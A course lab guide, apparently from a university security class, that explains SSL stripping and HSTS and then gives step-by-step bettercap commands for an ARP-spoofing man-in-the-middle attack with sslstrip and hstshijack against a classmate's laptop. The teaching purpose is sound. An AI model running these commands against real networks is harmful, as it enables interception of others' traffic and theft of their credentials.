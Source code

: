 # SSLSTRIP + HSTSHIJACK

**SSL Stripping** or an **SSL Downgrade Attack** is an attack used to circumvent the security enforced by SSL certificates on HTTPS-enabled websites. In other words, SSL stripping is a technique that downgrades your connection from secure HTTPS to insecure HTTP and exposes you to eavesdropping and data manipulation.

**HTTP Strict Transport Security (HSTS)** is a policy mechanism that helps to protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should automatically interact with it using only HTTPS connections, which provide Transport Layer Security (TLS/SSL), unlike the insecure HTTP used alone.

The HSTS Policy is communicated by the server to the user agent via an HTTP response header field named **Strict-Transport-Security**. HSTS Policy specifies a period of time during which the user agent should only access the server in a secure fashion. Websites using HSTS often do not accept clear text HTTP, either by rejecting connections over HTTP or systematically redirecting users to HTTPS (though this is not required by the specification). The consequence of this is that a user-agent not capable of doing TLS will not be able to connect to the site.

## SSLSTRIP + HSTSHIJACK with BETTERCAP 
### **Goal**
In this session, our goal is to clone start an **sslstrip** attack against a victim also using the **hstshijack** module in order to avoid website **hsts** protection policy.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Login as root and install **bettercap**

        sudo su
        apt install bettercap

 2. Check your `iface` name

        iw dev

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/1.%20iw%20dev.png?raw=true)

 3. Run **bettercap** over your **iface**

        bettercap -iface wlp59s0
 4. Update **bettercap** mudules **(caplets)**
        
        caplets.updates
        caplets.show

 5. Check if **hstshijack/hstshijack** is installed

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/2.%20caplets.png?raw=true)

 6. Run **help** and check enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/3.%20modules%20enabled.png?raw=true)


 7. Set the **sslstrip** to **true** and enable **hstshijack** module:
       
        set http.proxy.sslstrip true
        hstshijack/hstshijack

 8. Check (again) enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/4.%20modules%20enabled.png?raw=true)

 9. Finally, enable **net.probe**, **net.sniff** and **arp.spoof** modules (respect this order!)

        net.probe on
        net.sniff on
        arp.spoof on

 10. Check (again and again) enabled modules

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/5.%20modules%20enabled.png?raw=true)

 11. On the **Victim** side try to navigate and https website
 

**Attention:** modern browser are able to prevent this kind of attack. If you are not to fully replicate the attack on your personal laptop, don't worry, try on the GNS3 laboratory (or study more in order to made it compatible also with modern technologies)